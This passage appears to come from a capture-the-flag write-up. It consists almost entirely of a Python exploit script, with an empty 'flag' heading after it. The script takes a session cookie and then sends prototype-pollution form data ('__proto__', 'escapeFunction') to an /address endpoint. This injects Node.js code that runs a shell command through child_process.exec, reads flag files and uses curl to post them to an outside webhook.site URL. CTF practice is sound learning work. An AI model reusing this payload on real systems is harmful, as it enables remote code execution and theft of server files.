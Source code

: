 ```python
        connect_sid_cookie = cookie
        break

if connect_sid_cookie:
    print(f"Extracted Cookie: {connect_sid_cookie.name}={connect_sid_cookie.value}")
else:
    print("Failed to extract connect.sid cookie")

# GET request to /
root_url = f"{base_url}/"
root_response = send_get_request(root_url)
if root_response.status_code == 200:
    print("Root GET Request Successful")
else:
    print("Root GET Request Failed")

# Address - First Request
address_url = f"{base_url}/address"
address_data_1 = "username=__proto__&addressId=client&Fulladdress=1"
address_response_1 = send_post_request(address_url, address_data_1)
if address_response_1.status_code == 302:
    print("Address First Request Successful")
else:
    print("Address First Request Failed")

# Address - Second Request
address_data_2 = "username=__proto__&addressId=escapeFunction&Fulladdress=JSON.stringify; process.mainModule.require('child_process').exec('cat /tmp/flag*.txt | curl -X POST -d @- https://webhook.site/29b8fbde-348d-41bf-9eec-d7603249be32')"
address_response_2 = send_post_request(address_url, address_data_2)
print(address_response_2.text)
if address_response_2.status_code == 302:
    print(address_response_2.text)
    print("Address Second Request Successful")
else:
    print("Address Second Request Failed")

# GET request to / again
root_response_final = send_get_request(root_url)
if root_response_final.status_code == 200:
    print("Final Root GET Request Successful")
else:
    print("Final Root GET Request Failed")

```

#### flag:
